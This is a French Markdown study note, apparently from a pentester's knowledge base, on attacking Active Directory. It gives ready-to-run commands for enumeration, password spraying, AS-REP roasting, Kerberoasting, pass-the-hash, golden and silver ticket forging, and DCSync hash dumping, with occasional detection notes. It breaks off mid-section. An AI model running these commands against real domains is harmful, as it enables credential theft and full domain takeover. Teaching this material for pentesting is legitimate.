# 👑 Active Directory

> [!info] **C'est quoi ?**
> AD = **le système d'identité** de ~90% des entreprises Windows.
> Compromettre AD = contrôler **tout le domaine**. C'est là que se joue le pentest "réaliste".

> 🧰 **Outils associés :** [[Outils/Outil - Impacket|Impacket]] · [[Outils/Outil - BloodHound|BloodHound]] · [[Outils/Outil - Mimikatz|Mimikatz]] · [[Outils/Outil - Responder|Responder]] → voir [[Tools|🧰 Bibliothèque d'Outils]]

---

## 1. Concepts fondamentaux

Active Directory (AD) est le **service d'annuaire** de Microsoft : une base LDAP qui stocke les identités (utilisateurs, machines, groupes), les politiques (GPO) et les relations d'administration (OU, ACL). C'est le **cerveau de l'authentification** Windows : Kerberos, NTLM, DNS, LDAP et SMB s'y articulent. Comprendre sa structure est la condition *sine qua non* de toute attaque.

### 1.1 L'architecture logique

AD est organisé en **domaines**, regroupés en **forêts**, reliés par des **trusts**. La frontière de sécurité critique est la **forêt** : tout ce qui est dans la même forêt partage le schéma, le catalogue global et (souvent) les mots de passe d'administration.



### 1.2 Les composants à connaître

| Concept                    | Rôle                                       | Ports principaux |
| -------------------------- | ------------------------------------------ | ---------------- |
| **Domain Controller (DC)** | Centralise auth, DNS, LDAP, Kerberos       | 88, 389, 445, 464 |
| **Domain**                 | Périmètre d'identité (ex : `corp.local`)   | — |
| **Forest**                 | Ensemble de domaines avec trusts transitifs | 88, 445 |
| **Trust**                  | Relation de confiance entre domaines       | 88, 135 |
| **GPO**                    | Politiques de groupe (paramètres, scripts) | SYSVOL (445) |
| **OU**                     | Organisation logique (folding des GPO)     | — |
| **SPN**                    | Service Principal Name (nom de service)    | 88 |
| **Schema**                 | Définition des attributs de la forêt       | — |
| **Global Catalog**         | Index de recherche multi-domaines          | 3268/3269 |

### 1.3 La structure LDAP

Chaque objet AD possède un **Distinguished Name (DN)** qui décrit son chemin dans l'annuaire :

```text
CN=alice, OU=Utilisateurs, DC=corp, DC=local
├── DC  = Domain Component (racine du domaine)
├── OU  = Organizational Unit (conteneur, scope des GPO)
└── CN  = Common Name (objet : utilisateur, groupe, machine)
```

Interroger l'annuaire directement avec `ldapsearch` est l'une des techniques d'énumération les plus puissantes :

```bash
# Lister les utilisateurs
ldapsearch -x -H ldap://192.168.1.10 -b "DC=corp,DC=local" "(objectClass=user)" sAMAccountName description
# Lister les groupes
ldapsearch -x -H ldap://192.168.1.10 -b "DC=corp,DC=local" "(objectClass=group)" cn member
# Chercher des attributs sensibles (SPN)
ldapsearch -x -H ldap://192.168.1.10 -b "DC=corp,DC=local" "(servicePrincipalName=*)" sAMAccountName servicePrincipalName
```

### 1.4 DNS AD : la brique oubliée

Chaque DC héberge les zones DNS du domaine (dont les zones `_msdcs` qui contiennent les enregistrements SRV de services Kerberos/LDAP). L'énumération DNS est un moyen discret de cartographier l'infrastructure :

```bash
# Dump de toute la zone AD
adidnsdump -u 'corp\user' -p 'pass' 192.168.1.10
# Requête SRV manuelle
nslookup -type=any _ldap._tcp.dc._msdcs.corp.local 192.168.1.10
# Zone transfer (souvent bloqué mais toujours à tester)
dig axfr corp.local @192.168.1.10
```

### 1.5 Les ports importants du domaine

| Port | Protocole | Usage | Intérêt offensif |
|---|---|---|---|
| 53 | DNS | Résolution AD | Zone transfer, adidnsdump |
| 88 | TCP/UDP Kerberos | TGT/TGS | Kerberoast, AS-REP, tickets |
| 135 | RPC | WMI, coerce | PrinterBug, DFSCoerce |
| 139/445 | NetBIOS/SMB | Fichiers, logon | PtH, relay, psexec |
| 389/636 | LDAP / LDAPS | Annuaire | Énumération, ACL abuse |
| 3268/3269 | Global Catalog | Recherche forêt | Trusts, récupération |
| 464 | Kerberos (change pwd) | Changement mdp | Rotation de creds |
| 9389 | AD Web Services | PowerShell AD | Get-ADUser |
| 5985/5986 | WinRM | Remote management | evil-winrm |

> [!tip] 💡 **Réflexe port :** dans un pentest AD, les 4 ports à tester systématiquement sont **445 (SMB)**, **88 (Kerberos)**, **389 (LDAP)** et **5985 (WinRM)**. Un couple creds + WinRM ouvert = shell immédiat.

### 1.6 Le flux Kerberos (à connaître sur le bout des doigts)

> 📘 Fiche détaillée du protocole : [[Techniques/Kerberos - Le protocole|👑 Kerberos — comment ça marche]]



> [!danger] 🚨 **Le point d'or de Kerberos**
> Le TGT est chiffré avec la clé du compte **krbtgt**. Le TGS avec la clé du **service**.
> Si un ticket est faiblement protégé ou qu'on détient la clé, on **forge** ce qu'on veut.

---

## 2. Kerberos & NTLM — les protocoles d'authentification

### 2.1 Kerberos en profondeur

Kerberos (RFC 4120) est un protocole à **ticket**, basé sur un tiers de confiance : le **KDC** (Key Distribution Center), qui tourne sur chaque DC. Deux types de tickets existent :

- **TGT** (Ticket Granting Ticket) : prouve l'identité de l'utilisateur auprès du KDC. Chiffré avec la clé de **krbtgt**.
- **TGS** (Ticket Granting Service) : donne accès à un service précis (SPN). Chiffré avec la clé du **compte de service**.

Les 6 étapes en détail :

| Étape | Message | Contenu | Clé de chiffrement |
|---|---|---|---|
| 1 | AS-REQ | nom d'utilisateur + timestamp chiffré (pre-auth) | clé de l'utilisateur |
| 2 | AS-REP | TGT + clé de session | **krbtgt** |
| 3 | TGS-REQ | TGT + SPN demandé | clé de session |
| 4 | TGS-REP | TGS | **clé du service** |
| 5 | AP-REQ | TGS + authenticator | clé de session |
| 6 | — | validation | — |

**La PAC** (Privilege Attribute Certificate) est l'élément clé : elle contient les SID de l'utilisateur et de ses groupes, et est transportée dans le TGT/TGS. Si un service ne la vérifie pas correctement, on peut la forger (MS14-068, Bronze Bit).

### 2.2 NTLM — le challenge/response

NTLM est l'ancien protocole, encore utilisé quand Kerberos échoue ou n'est pas configuré. Il fonctionne en 4 échanges :



Le point d'attaque : le serveur ne reçoit jamais le mot de passe, seulement une **preuve** calculée depuis le hash NT. Cette preuve (NetNTLMv2) est **capturable** (Responder) et **crackable** hors-ligne, ou **relayable** si la cible n'exige pas de signature.

### 2.3 Les types d'encryption Kerberos

| etype | Algorithme | Usage | Note offensive |
|---|---|---|---|
| 1/3 | DES | Obsolète | Désactivé par défaut |
| 23 | RC4-HMAC-MD5 | Compat max | Base des hashes NTLM → Kerberoast `-m 13100` |
| 17 | AES128-CTS-HMAC-SHA1 | Domaine moderne | Kerberoast AES `-m 19700` |
| 18 | AES256-CTS-HMAC-SHA1 | Domaine moderne | Kerberoast AES `-m 19700` |

> [!warning] ⚠️ **RC4 vs AES :** si le domaine force AES (interdit RC4), le Kerberoast passe en `$krb5tgs$18$` (mode 19700). Le **PtH via mimikatz** dépend du hash NTLM (RC4) : avec AES-only, il faut convertir en ticket (Overpass-the-Hash).

### 2.4 Les flags de ticket et la délégation

Les tickets portent des flags qui conditionnent leur utilisation :

- **`forwardable`** : peut être envoyé à un autre service (base des attaques S4U et délégation).
- **`proxiable`** : peut être échangé contre un autre ticket.
- **`renewable`** : renouvelable sans ré-authentification.
- **`pre-authenticated`** : pre-auth Kerberos effectuée (absence = AS-REP roasting).
- **`ok-as-delegate`** : autorisé à être délégué (délégation non restreinte).

L'attribut `userAccountControl` des comptes machine pilote la délégation : `TRUSTED_FOR_DELEGATION` (unconstrained), `TRUSTED_TO_AUTH_FOR_DELEGATION` (constrained). Voir la section [[05 - Active Directory|#17]] sur les délégations.

---

## 3. Énumération AD

L'énumération est **80 % du travail** en pentest AD. La règle d'or : **ne jamais exploiter avant d'avoir cartographié**. Chaque compte, chaque ACL, chaque GPO est une porte potentielle.

### 3.1 Sans creds (une fois un accès réseau)

```bash
# Découverte du domaine
crackmapexec smb 192.168.1.10/24
crackmapexec ldap 192.168.1.10 -u '' -p '' --get-sid

# Kerberos - user enumeration / brute (fast)
kerbrute userenum -d corp.local users.txt 192.168.1.10
kerbrute bruteuser -d corp.local wordlist.txt admin

# RID brute (lister tous les comptes SID)
crackmapexec smb 192.168.1.10 -u '' -p '' --rid-brute 5000

# Scan ciblé des services
nmap -Pn -sS -p 53,88,135,139,445,389,636,3268,3269,5985,5986 192.168.1.10
```

### 3.2 Avec des creds

```bash
# BloodHound - la carte du domaine (nœuds = comptes, arêtes = chemins)
bloodhound-python -u user -p 'pass' -d corp.local -ns 192.168.1.10 -c All --zip

# netexec (ex-crackmapexec)
nxc smb 192.168.1.10 -u user -p 'pass' --users
nxc smb 192.168.1.10 -u user -p 'pass' --groups
nxc ldap 192.168.1.10 -u user -p 'pass' --bloodhound -c All --dns-server 192.168.1.10

# Autres énumérations
ldapdomaindump -u 'corp\user' -p 'pass' 192.168.1.10
rpcclient -U 'user%pass' 192.168.1.10
  > enumdomusers
  > netshareenumall

# SSH/winrm ? WinRM test
evil-winrm -i 192.168.1.10 -u user -p 'pass'
```

### 3.3 Les objets dangereux à chercher

> [!warning] 🚩 **Checklist "objets à fort impact"**
> - Utilisateurs avec `SPN` (→ Kerberoast)
> - Comptes **sans pre-auth requise** (→ AS-REP roast)
> - Groupe **Domain Admins / Enterprise Admins**
> - Délégation ([[Techniques/Kerberos Delegation|Unconstrained / Constrained / RBCD]])
> - ACL abuse : `GenericAll`, `GenericWrite`, `WriteDACL`, `WriteOwner` (→ shadow credentials !)
> - Comptes machines avec `userAccountControl` modifiés
> - GPO modifiables par un utilisateur
> - AdminCount ≠ 0 (comptes privilégiés)
> - Attribut `ms-mcs-AdmPwd` lisible ([[Techniques/LAPS et GMSA|LAPS]]) / GMSA présents
> - `msDS-KeyCredentialLink` déjà renseigné ([[Techniques/Shadow Credentials|shadow creds]])

### 3.4 Énumération LDAP avancée

LDAP permet de filtrer finement sur les attributs. Les **OID de matching** (bitwise) permettent de tester les bits de `userAccountControl` :

```bash
# userAccountControl bit 4194304 = "Do not require preauth" (AS-REP)
ldapsearch -x -H ldap://DC -D 'corp\user' -w 'pass' \
  -b 'DC=corp,DC=local' "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" sAMAccountName

# bit 524288 = TRUSTED_FOR_DELEGATION (unconstrained)
ldapsearch -x -H ldap://DC -D 'corp\user' -w 'pass' \
  -b 'DC=corp,DC=local' "(userAccountControl:1.2.840.113556.1.4.803:=524288)" sAMAccountName

# bit 65536 = TRUSTED_TO_AUTH_FOR_DELEGATION (constrained)
ldapsearch -x -H ldap://DC -D 'corp\user' -w 'pass' \
  -b 'DC=corp,DC=local' "(userAccountControl:1.2.840.113556.1.4.803:=65536)" sAMAccountName

# Recherche de comptes privilégiés
ldapsearch -x -H ldap://DC -D 'corp\user' -w 'pass' \
  -b 'DC=corp,DC=local' "(adminCount=1)" sAMAccountName
```

### 3.5 Énumération DNS

```bash
# Dump complet de la zone (adidnsdump)
adidnsdump -u 'corp\user' -p 'pass' --dns-tcp 192.168.1.10 -r
# Records SRV Kerberos (lister les DC)
nslookup -type=SRV _kerberos._tcp.dc._msdcs.corp.local 192.168.1.10
```

### 3.6 BloodHound — les modes de collection

| Mode | Contenu | Brutalité |
|---|---|---|
| `Default` | Nœuds, groupes, sessions | Léger |
| `All` | + ACL, trusts, GPO, délégations, LAPS | Complet (recommandé) |
| `LoggedOn` | Sessions sur machines (si droits locaux) | Variable |
| `SessionLooping` | Monitoring continu des sessions | Bruyant |

> 📘 Fiche détaillée : [[Outils/Outil - BloodHound|BloodHound]] — voir section 30 pour les requêtes Cypher.

---

## 4. Password Spraying

### 4.1 Principe

Le **spraying** consiste à tester **un seul mot de passe** contre **beaucoup de comptes**, espacé dans le temps. Contrairement au brute-force, il évite les lockouts et s'appuie sur la faiblesse des mots de passe d'entreprise (saison + année, nom de boîte, etc.).



> 📘 Fiche détaillée : [[Techniques/Password Spraying|🌧️ Password Spraying]]

### 4.2 Outillage

```bash
# Avec netexec
nxc smb 192.168.1.10 -u users.txt -p 'Fall2024!' --continue-on-success
nxc ldap 192.168.1.10 -u users.txt -p 'Fall2024!' --continue-on-success

# Kerbrute (Kerberos, ne déclenche pas de logon NTLM)
kerbrute passwordspray -d corp.local users.txt 'Fall2024!'

# Avec crackmapexec sur le réseau complet
crackmapexec smb 192.168.1.0/24 -u users.txt -p 'Fall2024!' --continue-on-success
```

### 4.3 Règles d'hygiène

- **Espacer** les tentatives (ex : 1 mot de passe toutes les 30 min).
- Tester les comptes **sans lockout** en priorité (`PasswordNeverExpires`).
- Ne **jamais** tester `Administrator` en premier (souvent bloqué par `Account lockout`).
- Cibler d'abord : `svc_*`, `backup_*`, `admin`, comptes de service.

---

## 5. AS-REP Roasting (aucun creds requis)

### 5.1 Principe

Un compte avec le flag **"Do not require Kerberos pre-authentication"** (`UF_DONT_REQUIRE_PREAUTH`, bit 0x400000) peut demander un TGT **sans preuve de connaissance du mot de passe**. Le TGT étant chiffré avec la clé dérivée du mot de passe, il devient un **hash crackable hors-ligne**.



> 📘 Fiche détaillée : [[Techniques/AS-REP Roasting|☀️ AS-REP Roasting]]

### 5.2 Exploitation

```bash
# Avec une liste d'utilisateurs énumérés (kerbrute userenum / RID brute)
GetNPUsers.py -usersfile users.txt -dc-ip 192.168.1.10 'corp.local/'

# Avec des creds (recherche directe des comptes concernés)
GetNPUsers.py -dc-ip 192.168.1.10 'corp.local/user:pass' -request

# Côté Windows : Rubeus
Rubeus.exe asreproast /format:hashcat

# Crack
hashcat -m 18200 asrep.txt wordlist.txt
john --format=krb5asrep asrep.txt --wordlist=wordlist.txt
```

### 5.3 Notes et pièges

- **Aucun credential requis** si on connaît le nom d'un compte concerné (énumération préalable).
- Les comptes **machine** sont exclus (pre-auth obligatoire).
- Le hash est en `$krb5asrep$23$...` → mode 18200.
- **Contre-mesures** : activer la pre-auth partout, surveiller les événements 4768 sans flag `pre-authenticated`.

---

## 6. Kerberoasting (creds standards suffisent)

### 6.1 Principe

N'importe quel utilisateur authentifié peut demander un **TGS** pour n'importe quel SPN. Le TGS est chiffré avec la **clé du compte de service** → on récupère un blob déchiffrable hors-ligne en testant des mots de passe. La victime ne remarque rien.



> 📘 Fiche détaillée : [[Techniques/Kerberoasting|🧀 Kerberoasting]]

### 6.2 Exploitation

```bash
GetUserSPNs.py -dc-ip 192.168.1.10 'corp.local/user:pass' -request
hashcat -m 13100 kerberoast.txt wordlist.txt

# Depuis une machine Windows (PowerShell)
powershell -ep bypass
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat hashcat | Out-File hashes.txt

# Rubeus (Windows)
Rubeus.exe kerberoast /outfile:hashes.txt
```

> [!tip] 💡 **Si le service est un compte "machine"** → clé aléatoire 120+ chars, inutile de cracker.
> Si c'est un **compte utilisateur** avec SPN → souvent crackable !

### 6.3 Variantes et astuces

| Variante | Commande | Hashcat |
|---|---|---|
| **RC4 (défaut)** | `GetUserSPNs.py -request` | 13100 |
| **AES256** | `GetUserSPNs.py -request -aes` | 19700 |
| **Kerberoast ciblé** (on pose un SPN soi-même via GenericWrite) | `bloodyAD` / PowerShell | 13100 |
| **Cross-trust** | `GetUserSPNs.py ... -target-domain autre.com` | 13100 |

### 6.4 Notes défensives

- Les comptes de service doivent avoir des mots de passe **longs et aléatoires** (120+ chars) ou être des **GMSA** (mdp gérés, voir section 19).
- Détection : événements **4769** avec `TicketEncryptionType` = `0x17` (RC4) ou `0x12` (AES) en rafale depuis un même compte.

---

## 7. Pass-the-Hash (PtH)

### 7.1 Principe

Windows stocke les mots de passe sous forme de **hash NT** (MD4 de l'UTF-16LE). L'authentification NTLM n'a besoin **que du hash** : pas besoin de le cracker. Récupéré sur une machine, un hash s'**utilise directement** sur toutes les autres.



> 📘 Fiche détaillée : [[Techniques/Pass-the-Hash|🔑 Pass-the-Hash]]

### 7.2 Exploitation

```bash
# connexion avec un hash NTLM (ne pas cracker, juste utiliser)
evil-winrm -i 192.168.1.10 -u admin -H aad3b435b51404eeaad3b435b51404ee:579da618cfbfa8527ac86ce7d6f24d48
psexec.py -hashes :579da618cfbfa8527ac86ce7d6f24d48 corp.local/admin@192.168.1.10
wmiexec.py -hashes :579da618cfbfa8527ac86ce7d6f24d48 corp.local/admin@192.168.1.10
nxc smb 192.168.1.10 -u admin -H 579da618cfbfa8527ac86ce7d6f24d48 --shares

# Depuis une machine Windows (mimikatz)
sekurlsa::pth /user:admin /domain:corp.local /ntlm:579da618cfbfa8527ac86ce7d6f24d48
# → ouvre une cmd avec l'identité de admin
```

### 7.3 Sources de hash NT

| Source | Outil | Où |
|---|---|---|
| **LSASS (mémoire)** | `mimikatz sekurlsa::logonpasswords` | Machines avec sessions actives |
| **SAM** | `mimikatz lsadump::sam` | Comptes locaux de la machine |
| **NTDS.dit** | `secretsdump -ntds` | Le DC : tous les comptes du domaine |
| **LSA** | `mimikatz lsadump::lsa /patch` | Comptes de domaine et machine |
| **NetExec** | `nxc smb ... --sam / --lsa` | Automatisation à distance |

### 7.4 Limites

- **PtH échoue sur les services qui exigent Kerberos AES** → utiliser **Overpass-the-Hash** (section 8).
- Les hashes de comptes **locaux** ne sont valides que sur la machine d'origine.
- **LocalAccountTokenFilterPolicy** peut bloquer les admins locaux en UAC.

---

## 8. Pass-the-Ticket & Overpass-the-Hash

### 8.1 Principe

- **Pass-the-Ticket (PtT)** : voler un ticket Kerberos (`.kirbi` / `.ccache`) et **l'injecter** dans sa session → on "devient" le titulaire du ticket sans mot de passe.
- **Overpass-the-Hash (OPtH)** : convertir un hash NTLM en **TGT** via une AS-REQ → on utilise Kerberos avec un hash (contourne les limites RC4-only du PtH).



> 📘 Fiche détaillée : [[Techniques/Pass-the-Ticket et Overpass-the-Hash|🎫 Pass-the-Ticket / Overpass]]

### 8.2 Exploitation (Linux / Impacket)

```bash
# Export des tickets (mimikatz, Windows)
sekurlsa::tickets /export

# Pass-the-ticket (importer un ticket .kirbi)
kerberos::ptt ticket.kirbi
# Ou dans l'outil (Linux) : Rubeus passthrough / kirbi2ccache

# Overpass-the-Hash : convertir un hash NTLM en TGT Kerberos
getTGT.py -dc-ip 192.168.1.10 -hashes :579da618cfbfa8527ac86ce7d6f24d48 'corp.local/admin'
export KRB5CCNAME=admin.ccache
psexec.py -k -no-pass -dc-ip 192.168.1.10 'corp.local/admin@DC01.corp.local'
```

### 8.3 Exploitation (Windows / Rubeus)

```powershell
# Convertir un hash en TGT et l'injecter
Rubeus.exe asktgt /user:admin /rc4:<hash> /ptt
Rubeus.exe asktgt /user:admin /aes256:<hash> /ptt

# Lister / injecter des tickets
Rubeus.exe dump
Rubeus.exe triage
Rubeus.exe ptt /ticket:<base64>
```

### 8.4 Pièges

- Un ticket n'est valable que pour un **SPN** précis et une **machine** précise.
- Le TGT expire (10h par défaut) et peut être invalidé par le KDC.
- Toujours utiliser le **FQDN** de la cible (Kerberos ne connaît pas les IP).

---

## 9. Golden Ticket (forge un TGT, compte krbtgt)

### 9.1 Principe

Le TGT est chiffré par la clé de **krbtgt**. Posséder le hash NT/AES256 de krbtgt **+ le SID du domaine** permet de **forger** un TGT pour n'importe quel compte, avec n'importe quels groupes (dont Domain Admins). Le KDC n'est **jamais contacté**.



> 📘 Fiche détaillée : [[Techniques/Golden Ticket|👑 Golden Ticket]]

### 9.2 Forge avec mimikatz

```bash
# 1. Obtenir le hash de krbtgt + le SID du domaine
# mimikatz (DC, en System) :
lsadump::dcsync /domain:corp.local /user:krbtgt
# → /ntlm /aes256-cts-hmac-sha1-96

# 2. Forger le TGT
kerberos::golden /user:fakeadmin /domain:corp.local \
  /sid:S-1-5-21-... /krbtgt:<hash> /ptt

# 3. Connexion
psexec.py corp.local/fakeadmin@DC01.corp.local
```

### 9.3 Forge avec Impacket (ticketer)

```bash
# Générer le ccache
ticketer.py -nthash <krbtgt_ntlm> -domain-sid S-1-5-21-... \
  -domain corp.local fakeadmin
export KRB5CCNAME=fakeadmin.ccache
# Utiliser
psexec.py -k -no-pass -dc-ip 192.168.1.10 'corp.local/fakeadmin@DC01.corp.local'
```

### 9.4 Le SID et les groupes

| Élément | Valeur | Note |
|---|---|---|
| SID domaine | `S-1-5-21-<3 blocs>` | À obtenir via `--get-sid` ou BloodHound |
| RID Domain Admins | `512` | Ajouter via `/groups:512,519` |
| RID Enterprise Admins | `519` | Seulement si forêt |
| RID Administrator | `500` | SID complet `S-1-5-21-...-500` |

> [!danger] 🚨 **Golden Ticket = contrôle total pendant la durée de vie du hash krbtgt**
> Impossible à révoquer sans **changer le mot de passe de krbtgt DEUX FOIS**.

---

## 10. Silver Ticket (forge un TGS pour un service précis)

### 10.1 Principe

On forge un **TGS** pour un service précis (SPN) avec la clé du **compte de service/machine**. Un seul hash suffit, et le DC n'est pas contacté : l'attaque est **très discrète** (pas de log 4769 au KDC).



> 📘 Fiche détaillée : [[Techniques/Silver Ticket|💠 Silver Ticket]]

### 10.2 Exploitation

```bash
# Seulement le hash d'UN service suffit (ex : service HTTP sur une machine)
kerberos::golden /user:user /domain:corp.local /sid:S-1-5-21-... \
  /target:web01.corp.local /service:http /rc4:<hash_service> /ptt
# → accès au service, sans toucher au DC.

# Variante Impacket
ticketer.py -nthash <hash_service> -domain-sid S-1-5-21-... \
  -spn cifs/web01.corp.local user
export KRB5CCNAME=user.ccache
```

### 10.3 Les SPN à forger

| SPN | Service | Ce qu'on obtient |
|---|---|---|
| `cifs/<host>` | SMB | Accès fichiers + exécution |
| `http/<host>` | HTTP/IIS | Web |
| `ldap/<host>` | LDAP | DCSync (si krbtgt... non, clé du compte LDAP) |
| `host/<host>` | Host | Divers services RPC |
| `winrm/<host>` | WinRM | Shell |
| `mssqlsvc/<host>` | MSSQL | Accès base |

> [!warning] ⚠️ **Piège :** le Silver Ticket doit être forgé avec le **bon SID** du compte cible, sinon l'authentification échoue sur la validation de la PAC.

---

## 11. DCSync & NTDS.dit

### 11.1 DCSync — le game over

DCSync exploite le protocole de **réplication AD** (DRSUAPI). Avec les droits `Replicating Directory Changes` (et `All`), on peut demander au DC le hash de **n'importe quel compte**, dont **krbtgt**.



> 📘 Fiche détaillée : [[Techniques/DCsync|📥 DCsync]]

```bash
lsadump::dcsync /domain:corp.local /user:admin
secretsdump.py -just-dc corp.local/admin:pass@DC01.corp.local
# Seulement krbtgt
secretsdump.py -just-dc-user krbtgt corp.local/admin:pass@DC01.corp.local
```

### 11.2 NTDS.dit — les méthodes de dump

> But : récupérer `NTDS.dit` + `SYSTEM` → `secretsdump LOCAL` → tous les hashes du domaine.

| Méthode | Outil | Détail |
|---|---|---|
| **DCSync (le plus simple)** | `secretsdump -just-dc` | Requête de réplication → le plus bruyant |
| **ntdsutil IFM** | `ntdsutil "ac i ntds" "ifm" "create full C:\temp"` | Crée une copie complète |
| **Volume Shadow Copy** | `vssadmin create shadow /for=C:` | Copie NTDS.dit verrouillé |
| **Forensics (léger)** | `dumpit` + `volatility` | Dump mémoire puis extraction SYSTEM |
| **NetExec** | `nxc smb DC -u u -p p --ntds vss` | Automatise la VSS |

```bash
# VSS (souvent le meilleur rapport simplicité / discrétion)
vssadmin create shadow /for=C:
